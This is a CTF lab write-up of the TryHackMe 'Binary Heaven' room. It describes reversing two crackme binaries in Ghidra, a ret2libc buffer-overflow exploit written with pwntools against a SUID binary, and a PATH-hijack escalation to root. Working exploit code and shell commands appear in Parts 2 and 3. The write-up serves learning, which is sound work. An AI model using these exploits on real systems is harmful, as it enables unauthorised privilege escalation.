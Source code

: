 # Binary Heaven

https://tryhackme.com/room/binaryheaven

A binex heavy room - which normally I would avoid, as its an area I have little experience in (and all of that painful). But, being a new room with no writeups and needing to keep my streak up, I dived in :) Learned a bit, so thats awesome.

A scan of the box revealed just a single port, 22. The room started with giving you two binaries to reverse in order to get the SSH credentials.

## Part 1: angel_A and angel_B

These two binaries, A and B, contained the ssh username and password respectively. They were in C and Go, i.e. angel_A was 17kb and angel_B was ~2mb :D

### C Binary 'angel_A'

Opening this in ghidra showed code similar to the following:

```c
  printf("\x1b[36m\nSay my username >> \x1b[0m");
  fgets((char *)local_15,9,stdin);
  local_c = 0;
  while( true ) {
    if (7 < local_c) {
      puts("\x1b[32m\nCorrect! That is my name!\x1b[0m");
      return 0;
    }
    if (*(int *)(username + (long)local_c * 4) != (char)(local_15[local_c] ^ 4) + 8) break;
    local_c = local_c + 1;
  }
```

Following that username pointer back showed a block of bytes a bit like this:

```
           00104060 6b              undefined16Bh                     [0]                               XREF[3]:     Entry Point(*), main:00101202(*), 
                                                                                                                     main:00101209(R)  
           00104061 00              undefined100h                     [1]
           00104062 00              undefined100h                     [2]
           00104063 00              undefined100h                     [3]
           00104064 79              undefined179h                     [4]
           00104065 00              undefined100h                     [5]
           00104066 00              undefined100h                     [6]
           00104067 00              undefined100h                     [7]
           00104068 6d              undefined16Dh                     [8]
           00104069 00              undefined100h                     [9]
           0010406a 00              undefined100h                     [10]
           0010406b 00              undefined100h                     [11]
           0010406c 7e              undefined17Eh                     [12]
           0010406d 00              undefined100h                     [13]
           0010406e 00              undefined100h                     [14]
           ... etc
```

If you look closely, you can see every fourth byte looks a bit like its in the ascii range, which kind of matches with this code from the check: `username + (long)local_c * 4`, e.g. take the index we are up to, multiply it by four, and check against that byte. Furthermore, there was a `^ 4` permutation too. I took the bytes from the above block, put them in cyberchef, then messed with XORing until I got the username (it was obvious when the string was unmangled enough to resemble and english word).

### Go Binary 'angel_B'

This challenge was a lot harder. Being Go, opening it in ghidra showed a huge mess, and even though I found where the input is checked, it used some sort of memory check rather than string compare to do it. Furthermore, in a go binary, strings are not stored just as null terminated byte sets: instead they're all in one huge blog which, since a given go binary includes a lot of its standard library, has a huge mass of other strings in there too.

I tried a few things, including straight brute forcing the password using bash like `for i in $(cat all-english-words.txt); do (echo $i | ./angel_B && echo $i) >> result.txt; done;`, which took hours but achieved nothing. I also tried some custom go ghidra scripts from here: https://cujo.com/reverse-engineering-go-binaries-with-ghidra/, and I played around with [Delve](https://github.com/go-delve/delve), a GDB-like program for go debugging, which was fun but ultimately not useful.

In the end, the solution was simple: I reopened Ghidra, and re-examined the binary but on the analysis options screen, selected ALL the options (even the red experimental ones). For whatever reason, while making the decompiled code even more incomprehensible, this fixed the referencing of the memory address being checked at:

```c
  if ((puVar2 == (undefined *)0xb) &&
     (puVar14 = puVar2,
     runtime.memequal(CONCAT71(uVar8,uVar7),CONCAT71(uVar6,uVar5),(int)extraout_RDX,0xb,uVar9,uVar11
                      ,*puVar13,&DAT_004cad0b,0xb,cVar15), uVar4 = extraout_RDX_01, cVar15 != '\0'))
  {
```

that `DAT_004cad0b` above, when followed, led to the password in a sequence of plain ascii bytes. Good job Ghidra, got there in the end :)

## Part 2: Pwning 'pwn_me'

On the box was the user flag, and a suid binary running as the user `binexgod`, called `pwn_me`. When run, this would tell you the `system` location then wait for input. The system location changed each time - ASLR (address space layout randomisation) eas enabled on the box.

This stumped me for a bit - as I said, I am not experienced at binex. I worked out the buffer size was roughly 28 characters and tried, like a blind caveman, shoving the system address into the overwrite position without luck. I went off to do some research, specifically around 'system' and binex.

This led me to ret2system, or more generally **ret2libc**, and I found a tutorial that proved excellent: https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/ret2libc. This was exactly what I needed - in fact, pwn tools was already on the box! Except... ASLR was already enabled? Meaning that I couldn't just hardcode the location of libc then add offsets...

In the end, perhaps more complicated than I needed to be, I worked out the difference in offset between system and '/bin/sh' in libc, then read the location of system from the program's out and added the offset as needed. The difference between the two was different on my test machine compared to the box, so after proving the method I had to tweak it before final exploitation. To calculate the differences I used `strings -a -t x /lib32/libc.so.6 | grep /bin/sh` to get the strings location, subbed from that `readelf -s /lib32/libc.so.6 | grep system` using a hex calculator, then added that into the script to add to the read system value. The final script (with my host machine's offset, not the targets) was:

```python
from pwn import *

p = process('./pwn_me')

p.recvline()
line2 = p.recvline()
system = int(line2.split(b': ')[1].split(b'\n')[0], 16)
binsh = system + 0x14733c

payload  = b'A' * 32
payload += p32(system)
payload += p32(0x0)
payload += p32(binsh)

p.clean()
p.sendline(payload)
p.interactive()
```

This worked and I had privesc and got binexgod's flag :)

## Part 3: Privesc to Root

The final privesc was a bit of a throwaway: there was another suid binary called `vuln`, which had the source file besides it:

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo Get out of heaven lol");
}
```

There was a script which printed an animated nyancat in the terminal (by this point I had added my public key to binexgod's ssh folder so I could just ssh in, getting a nice terminal) but I am pretty sure that was just there as a red herring. The above looked like a plain path exploit, and it was:

```bash
echo /bin/sh -p > echo
chmod +x ./echo
export PATH=/home/binexgod:$PATH
./vuln
```

And I had a root shell and the final flag :)
